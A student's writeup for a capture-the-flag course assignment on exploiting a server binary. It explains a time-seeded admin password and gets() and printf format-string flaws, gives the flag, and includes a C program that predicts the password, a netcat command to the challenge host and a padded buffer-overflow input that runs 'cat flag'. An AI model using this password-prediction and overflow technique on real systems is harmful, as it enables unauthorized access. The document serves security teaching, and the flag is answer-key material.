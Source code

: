# Writeup 8 - Binaries II

Name: Radhika Khare
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Radhika Khare

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?
One time randomly generated password using a time based seed. It doesn't limit number of attempts for the password which makes it vulnerable to possible brute forcing. Also the password is of a fixed size every time which reduces variability of the password and thus also makes it easier to brute force. Finally the biggest issue is that in memory its human readable as its in plaintext.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.
Line 68 utilizes gets() which can cause buffer overflow issues. This would cause it to read data without checking the length of bytes entered which means that the data can overflow into memory used for something else. Line 46 poses a vulnerability because the printf() could be used for string injection based on what they enter for input. There should be something like %s to control that a string is printed out.

3. What is the flag?
CMSC389R-{expl017-2-w1n}
4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.
If you generate the password the same way as in server.c and print it, it is possible to generate the password the same way which is a major vulnerability of the program. Taking the password generating code from server.c directly I would generate the password (i added loop of 5 time of doing this password generation bc time delays and finally was able to figure out how to make it work for about the 2nd of so password generated. I was originally thinking of generating a python script but for the sake of simplicity decided to just do ./a.out && nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 1337 where a.out was my executable. After finally escalating privilege I realized that using the 4th option i can exploit the buffer overflow error. I noted that the buff variable is 33 bytes/characters. The command cat flag which shows the flag is only 8 chars long. I want to add the command into that part of memory to allow the command to be used. To deal with this I had to add 25 spaces after to deal with the rest of the buffer. Then after adding it to the list of available commands I wanted to execute it making what I executed be "cat flag                         cat flag". After multiple tries I remembered that I needed 25 spaces again to fill the buffer size properly making my input "cat flag                         cat flag                         ".

my c script findpass.c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;
    int n=5;
    /* seed random with time so that we can password */
    while (n>0){
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;

    printf("%s\n", password);
    /*free(password);*/
    n=n-1;
    sleep(1);
    }
    return 0;
}



